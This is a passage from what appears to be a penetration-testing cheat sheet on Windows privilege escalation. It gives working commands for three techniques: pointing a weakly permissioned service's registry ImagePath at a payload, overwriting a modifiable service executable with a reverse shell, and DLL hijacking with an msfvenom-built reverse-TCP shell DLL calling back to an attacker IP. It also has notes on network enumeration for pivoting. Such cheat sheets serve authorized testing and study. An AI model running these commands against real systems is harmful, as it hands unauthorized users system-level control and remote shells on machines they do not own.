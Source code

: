 Check for permission on registry

```powershell
C:\Cas> .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

```powershell
C:\Cas> reg add <weak_registry> /v ImagePath /t REG_EXPAND_SZ /d C:\Cas\shell.exe /f
```

#### Insecure Service Executables

??? info "info"
If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable

Check for user/group permission on executable file

```powershell
C:\Cas> .\accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

```powershell
C:\Cas> copy /Y shell.exe "C:\Program Files\File Permissions Service\<insecure-service>"
```

#### DLL Hijacking

??? info "info"
Find a process that runs/will run as with other privileges (horizontal/lateral movement) that is missing a dll.
Have write permission on any folder where the dll is going to be searched (probably the executable directory or some folder inside the system path)

    Find missing Dlls inside system: [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)

```powershell
C:\Cas> msfvenom -p windows/x64/shell_reverse_tcp LHOST=<my-ip> LPORT=80 -f dll -o reverse.dll
```

## Networking Information

??? info "info"
An attacker may use a compromised target to pivot, or move between connected networks. This will amplify network visibility and allow the attacker to target hosts not directly visible from the original attack machine.
We can also investigate port bindings to see if a running service is only available on a loopback address, rather than on a routable one. Investigating a privileged program or service listening on the loopback interface could expand our attack surface and increase our probability of a privilege escalation attack.

### Full TCP/IP configuration

```powershell
C:\Cas> ipconfig /all
```
